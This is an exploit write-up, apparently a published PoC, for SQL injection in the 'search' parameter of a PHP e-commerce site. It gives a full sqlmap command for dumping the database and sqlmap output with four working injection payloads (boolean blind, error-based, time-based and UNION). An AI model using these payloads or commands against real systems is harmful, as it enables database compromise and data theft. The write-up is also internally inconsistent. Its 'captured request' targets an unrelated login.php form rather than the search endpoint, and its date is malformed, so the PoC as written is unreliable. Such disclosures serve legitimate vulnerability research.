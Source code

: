 # E-Commerce Website - SQL Injection 1
+ Exploit Title: E-Commerce Website - SQL Injection 1
+ Date: 2023-24-12
+ Exploit Author: Hamdi Sevben
+ Vendor Homepage: https://code-projects.org/e-commerce-website-in-php-with-source-code/
+ Software Link: https://download-media.code-projects.org/2020/01/E-COMMERCE_WEBSITE_IN_PHP_WITH_SOURCE_CODE.zip
+ Version: 1.0
+ Tested on: Windows 10 Pro + PHP 8.1.6, Apache 2.4.53
+ CVE: CVE-

## References:

## Description:
E-Commerce Website 1.0 allows SQL Injection via parameter 'search' in "/Electricks/Electricks-shop/index_search.php".
Exploiting this issue could allow an attacker to compromise the application, access or modify data,  or exploit latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to the Search Product textbox: "http://localhost/Electricks/Electricks-shop/index_search.php"
+ Fill Enter product name and search.
+ Intercept the request via Burp Suite and send to Repeater.
+ Copy and paste the request to a "r.txt" file.
+ Captured Burp request:
```
POST /libsystem/admin/login.php HTTP/1.1
Host: localhost
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-us,en;q=0.5
Cache-Control: no-cache
Content-Length: 313
Content-Type: application/x-www-form-urlencoded
Referer: http://localhost/libsystem/admin/
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36

username=admin&login=&password=Pass
```

+ Use sqlmap to exploit. In sqlmap, use 'search' parameter to dump the database. 

```
python sqlmap.py -r r.txt -p search --risk 3 --level 5 --threads 1 --random-agent tamper=between,randomcase --proxy="http://127.0.0.1:8080" --dbms mysql --batch --current-db
```

```
---
Parameter: search (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: search=test' OR NOT 4831=4831-- wglp

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: search=test' AND (SELECT 3794 FROM(SELECT COUNT(*),CONCAT(0x717a707a71,(SELECT (ELT(3794=3794,1))),0x7162706b71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- tgSG

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: search=test' AND (SELECT 9664 FROM (SELECT(SLEEP(5)))rvAF)-- dHfN

    Type: UNION query
    Title: Generic UNION query (NULL) - 12 columns
    Payload: search=test' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,CONCAT(0x717a707a71,0x6f6e55424c5968486469704d474a566a75696b44596473587874685a79756d7378646a7942777564,0x7162706b71),NULL,NULL,NULL,NULL,NULL,NULL-- -
---
[19:47:41] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.1.6, Apache 2.4.53
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[19:47:41] [INFO] fetching current database
current database: 'electricks'
```

+ current database: `electricks`

![1](https://github.com/h4md153v63n/CVEs/assets/5091265/e2d64c21-ad38-4af7-977c-d140d0642a28)
